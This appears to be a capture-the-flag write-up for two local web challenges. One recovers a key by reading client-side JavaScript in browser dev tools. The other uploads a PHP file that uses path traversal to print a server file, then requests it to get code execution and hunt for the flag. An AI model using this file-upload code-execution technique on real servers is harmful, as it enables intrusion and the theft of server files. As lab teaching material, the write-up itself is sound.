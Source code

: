 # Writeup

## Crack me!

### Walkthrough

1. Open Developer Options on the browser
2. Go to Sources
3. Scan Sources and look for the code that perform the encoding
4. Extract the stored values and decode them!
5. Know you have the key!

### Notes

This can become harder if we uglify and minify the JS.

## Find me!

### Possible Solution

1. Upload a file with a php content (`solution.php`)
```
<?php

highlight_file('./../../../../../app/views/home.php');
```

2. Server will respond with:

```
{
  "path": "uploads/2023/04/01/d41d8cd98f00b204e9800998ecf8427e.php"
}
```

3. Open http://localhost:PORT/{path} in the browser:

Example:
http://localhost:3000/uploads/2023/04/01/d41d8cd98f00b204e9800998ecf8427e.php

4. Your code will be executed! So basically you need to execute code to browse files and view their content to find the flag!


### Notes

You can use other scripts to scan and show files!
